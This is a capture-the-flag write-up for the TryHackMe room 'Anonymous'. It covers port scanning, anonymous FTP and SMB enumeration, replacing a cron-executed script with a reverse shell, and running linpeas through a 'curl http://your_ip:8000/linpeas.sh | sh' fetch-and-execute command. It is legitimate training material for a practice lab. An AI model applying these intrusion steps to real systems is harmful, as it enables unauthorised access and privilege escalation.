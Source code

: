 # This is a Writeup for the Room Anonymous on http://tryhackme.com 

## Enumeration

####Nmap

First we use nmap to see which ports are open and which services are running on them.

[![https://imgur.com/3KHpnMu.png](https://imgur.com/3KHpnMu.png)](https://imgur.com/3KHpnMu.png)

The first thing that catches our eye is the possibility to log into FTP anonymously which also hints to the room name so lets try that.

[![https://imgur.com/NSv0ZJ1.png](https://imgur.com/NSv0ZJ1.png)](https://imgur.com/NSv0ZJ1.png)

Lets discover which files we can find on the ftp server:

[![https://imgur.com/IyxL5jx.png](https://imgur.com/IyxL5jx.png)](https://imgur.com/IyxL5jx.png)

and use the get command to download the files.

The only interesting file we found is this bash script:

![Imgur](https://i.imgur.com/FS6sPPw.png) 

i am sure we can exploit it but lets first explore other options, we will find out later on.

Lets try to enumerate the SMB shares on Port 139 and 445

For this we can use the tool Enum4Linux which is pretty handy.

The usage is straight forward: 
enum4linux targetIP

We found a SMB share called pics.

![Imgur](https://i.imgur.com/ayu97kS.png)

Lets try to loginto that with the smbclient.

You can do that with the command:
smbclient \\\\targetip\\share -u anonymous
and no password.
There are only 2 pictures on the smbshare so we go back and explore the bash script in more detail.

It looks like a cronjob, so lets try if we can not only download but also upload files to ftp?

It works! 

So our next step are the following:
Download the clean.sh script, 

hide a command for a reverseshell inside 
-> Place to find a reverseshell https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

[![https://imgur.com/MYn1gRG.png](https://imgur.com/MYn1gRG.png)](https://imgur.com/MYn1gRG.png)

and replace the one on the ftp server with ours.

[![https://imgur.com/od1He2e.png](https://imgur.com/od1He2e.png)](https://imgur.com/od1He2e.png)

Now we only need to setup a nc listener and wait a bit, we are in!

[![https://imgur.com/cr43x7b.png](https://imgur.com/cr43x7b.png)](https://imgur.com/cr43x7b.png)

First lets get a better shell and then escalate our privileges!

We can use python for that: python -c 'import pty; pty.spawn("/bin/bash")'

##Privilege Escalation

After looking for the most common places to escalate i didn't find anything and decided to make my life easier by setting up a http server on my host machine and curl linpeas.sh on the target.

[![https://imgur.com/32WBOx6.png](https://imgur.com/32WBOx6.png)](https://imgur.com/32WBOx6.png)

With the command:

curl http://your_ip:8000/linpeas.sh | sh you can get linpeas.sh and execute it.

(Of course you need to download it first https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)


[![https://imgur.com/pLoEbad.png](https://imgur.com/pLoEbad.png)](https://imgur.com/pLoEbad.png)
[![https://imgur.com/icZAOXp.png](https://imgur.com/icZAOXp.png)](https://imgur.com/icZAOXp.png)

